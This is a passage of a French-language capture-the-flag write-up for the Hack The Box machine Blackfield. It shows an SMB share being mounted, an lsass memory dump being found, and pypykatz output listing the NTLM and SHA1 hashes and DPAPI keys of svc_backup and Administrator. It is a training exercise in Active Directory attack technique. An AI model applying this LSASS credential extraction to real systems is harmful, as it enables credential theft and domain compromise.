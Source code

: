 Je trouve un `lsass.zip`
Le fichier est large que je peux pas le telecharger dans le SMB, alors je vais mount ce share

```
└─# mount.cifs //BLACKFIELD.local/forensic mnt -o user=audit2020
Password for audit2020@//BLACKFIELD.local/forensic: 
                                                                                             
┌──(root㉿xXxX)-[/home/blo/CTFs/Boot2root/HTB]
└─# ls mnt                                   
 commands_output   memory_analysis   tools

lsass.DMP
```


Je trouve un `lsass.DMP` alors au lieu d'utiliser `mimikatz` je vais plutot utiliser `pypykatz` pour extraire toutes les hash dans ce dump

```
SID               : S-1-5-21-4194615774-2175524697-3563712290-1413
        msv :
         [00000003] Primary
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
        tspkg :
        wdigest :
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * Password : (null)
        kerberos :
         * Username : svc_backup
         * Domain   : BLACKFIELD.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 153705 (00000000:00025869)
Session           : Interactive from 1
User Name         : Administrator
Domain            : BLACKFIELD
Logon Server      : DC01
Logon Time        : 23-02-2020 23:29:04
SID               : S-1-5-21-4194615774-2175524697-3563712290-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : BLACKFIELD
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * SHA1     : db5c89a961644f0978b4b69a4d2a2239d7886368
         * DPAPI    : 240339f898b6ac4ce3f34702e4a89550
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : BLACKFIELD
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : BLACKFIELD.LOCAL
         * Password : (null)
        ssp :
        credman :


```